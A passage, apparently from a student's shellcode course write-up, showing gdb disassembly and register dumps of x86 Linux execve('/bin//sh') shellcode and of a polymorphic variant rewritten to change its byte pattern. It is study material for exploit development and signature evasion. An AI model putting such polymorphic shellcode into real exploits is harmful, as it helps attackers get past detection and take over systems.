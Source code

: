 ~~~ nasm
   0x0804808a <+10>:	push   0x6e69622f
   0x0804808f <+15>:	mov    ebx,esp
   0x08048091 <+17>:	mov    al,0xb
   0x08048093 <+19>:	int    0x80
End of assembler dump.
(gdb) break *0x08048093
Breakpoint 2 at 0x8048093
(gdb) c
Continuing.

Breakpoint 2, 0x08048093 in _start ()
(gdb) i r
eax            0xb	11
ecx            0x0	0
edx            0x0	0
ebx            0xbffff6d4	-1073744172
esp            0xbffff6d4	0xbffff6d4
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x8048093	0x8048093 <_start+19>
eflags         0x206	[ PF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb) x/12bx 0xbffff6d4
0xbffff6d4:	0x2f	0x62	0x69	0x6e	0x2f	0x2f	0x73	0x68
0xbffff6dc:	0x00	0x00	0x00	0x00
(gdb)
~~~

#### Disassembly of the Polymorphic Shellcode

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./execve-bin-sh-stack
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	xor    ebx,ebx
   0x08048082 <+2>:	push   ebx
   0x08048083 <+3>:	pop    eax
   0x08048084 <+4>:	push   eax
   0x08048085 <+5>:	mov    bl,0x6
   0x08048087 <+7>:	add    bl,bl
   0x08048089 <+9>:	dec    bl
   0x0804808b <+11>:	pushw  0x6873
   0x0804808f <+15>:	pushw  0x2f2f
   0x08048093 <+19>:	push   0x6e69622f
   0x08048098 <+24>:	mov    eax,esp
   0x0804809a <+26>:	xchg   ebx,eax
   0x0804809b <+27>:	int    0x80
End of assembler dump.
(gdb) break *0x0804809b
Breakpoint 2 at 0x804809b
~~~